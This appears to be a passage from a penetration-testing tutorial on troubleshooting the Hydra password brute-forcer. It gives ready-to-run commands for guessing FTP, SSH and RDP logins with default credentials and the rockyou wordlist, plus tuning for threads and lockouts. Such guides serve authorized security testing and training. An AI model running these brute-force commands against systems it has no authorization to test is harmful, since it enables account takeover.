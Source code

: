
### **❌ Problem 2: No Credentials Found**

**What You See:**
```bash
[DATA] attacking ftp://192.168.1.100:21/
[*] No valid passwords found
[*] Scanned 1 of 1 hosts (100% complete)
```

**How to Fix:**
```bash
# Step 1: Try manual common credentials first
hydra -l admin -p admin target_ip ftp
hydra -l admin -p password target_ip ftp
hydra -l admin -p 123456 target_ip ftp
# Test most common combinations manually

# Step 2: Check if service allows multiple attempts
nmap --script ftp-brute target_ip
# Verify service doesn't have lockout

# Step 3: Try different wordlists
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/rockyou.txt target_ip ftp
# Use larger, different wordlists

# Step 4: Verify service is actually accessible
telnet target_ip 21
# Manual connection test
```

**Common Causes:**
- Strong password policy on target
- Account lockout after failed attempts
- Service not actually running or accessible
- Wrong wordlists for target environment

---

### **❌ Problem 3: Performance Issues with Large Wordlists**

**What You See:**
```bash
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344391 login tries
# Very slow progress, taking hours
```

**How to Fix:**
```bash
# Step 1: Use smaller, targeted wordlists first
head -1000 /usr/share/wordlists/rockyou.txt > small_passwords.txt
hydra -L small_users.txt -P small_passwords.txt target_ip service

# Step 2: Optimize thread count for service type
hydra -t 4 target_ip ftp          # Good balance for FTP
hydra -t 1 target_ip rdp          # Conservative for RDP
hydra -t 8 target_ip ssh          # SSH can handle more

# Step 3: Use early exit on success
hydra -f -L users.txt -P passwords.txt target_ip service
# Stop after finding first valid credential

# Step 4: Try most common passwords first
echo -e "password\nadmin\n123456\npassword123" > priority_passwords.txt
hydra -L users.txt -P priority_passwords.txt target_ip service
```